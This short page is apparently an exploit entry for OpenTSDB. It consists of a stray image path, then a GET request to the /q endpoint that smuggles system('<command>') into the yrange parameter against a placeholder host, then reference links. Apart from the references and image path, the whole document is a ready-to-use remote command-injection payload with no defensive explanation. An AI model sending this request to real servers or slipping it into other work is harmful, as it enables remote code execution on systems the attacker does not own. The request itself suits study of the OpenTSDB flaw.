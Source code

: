 ### Exploit
```
GET /q?start=2000/10/21-00:00:00&end=2020/12/25-00:00:00&m=sum:ziq.kxt.ymi&o=&yrange=[0:system('<command>')]&wxh=1698x316&style=linespoint&json
Host: <rhost>
```

### References
https://github.com/OpenTSDB/opentsdb/issues/2051  
https://twitter.com/sec715/status/1355601224674942976/photo/1  

